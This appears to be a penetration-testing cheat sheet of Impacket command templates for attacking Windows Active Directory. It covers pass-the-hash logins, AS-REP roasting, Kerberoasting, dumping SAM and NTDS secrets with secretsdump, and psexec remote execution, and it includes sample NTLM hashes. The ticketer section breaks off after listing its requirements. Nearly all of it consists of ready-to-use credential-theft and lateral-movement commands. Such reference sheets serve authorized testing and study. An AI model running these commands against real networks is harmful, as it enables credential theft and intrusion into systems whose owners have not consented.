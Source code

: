#### impacket-smbclient

```c
$ export KRB5CCNAME=<USERNAME>.ccache
$ impacket-smbclient <DOMAIN>/<USERNAME>:<PASSWORD/PASSWORD_HASH>@<RHOST>
$ impacket-smbclient -k <DOMAIN>/<USERNAME>@<RHOST>.<DOMAIN> -no-pass
```

#### impacket-getTGT

```c
$ impacket-getTGT <DOMAIN>/<USERNAME>:<PASSWORD>
$ impacket-getTGT <DOMAIN>/<USERNAME> -dc-ip <DOMAIN> -hashes aad3b435b51404eeaad3b435b51404ee:7c662956a4a0486a80fbb2403c5a9c2c
```

#### impacket-GetNPUsers

```c
$ impacket-GetNPUsers <DOMAIN>/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast
$ impacket-GetNPUsers <DOMAIN>/<USERNAME> -request -no-pass -dc-ip <RHOST>
$ impacket-GetNPUsers <DOMAIN>/ -usersfile usernames.txt -format john -outputfile hashes
```

#### impacket-getUserSPNs / GetUserSPNs.py

```c
$ export KRB5CCNAME=<USERNAME>.ccache
$ impacket-GetUserSPNs <DOMAIN>/<USERNAME>:<PASSWORD> -k -dc-ip <RHOST>.<DOMAIN> -no-pass -request
$ ./GetUserSPNs.py <DOMAIN>/<USERNAME>:<PASSWORD> -k -dc-ip <RHOST>.<DOMAIN> -no-pass -request
```

#### impacket-secretsdump

```c
$ export KRB5CCNAME=<USERNAME>.ccache
$ impacket-secretsdump <DOMAIN>/<USERNAME>@<RHOST>
$ impacket-secretsdump -k <DOMAIN>/<USERNAME>@<RHOST>.<DOMAIN> -no-pass -debug
$ impacket-secretsdump -ntds ndts.dit -system system -hashes lmhash:nthash LOCAL -output nt-hash
$ impacket-secretsdump -dc-ip <RHOST> <DOMAIN>.LOCAL/svc_bes:<PASSWORD>@<RHOST>
$ impacket-secretsdump -sam SAM -security SECURITY -system SYSTEM LOCAL
```

#### impacket-psexec

```c
$ impacket-psexec <USERNAME>@<RHOST>
$ impacket-psexec <DOMAIN>/administrator@<RHOST> -hashes aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18
```

#### impacket-ticketer

**Requirements**

* Valid User
* NTHASH
* Domain-SID
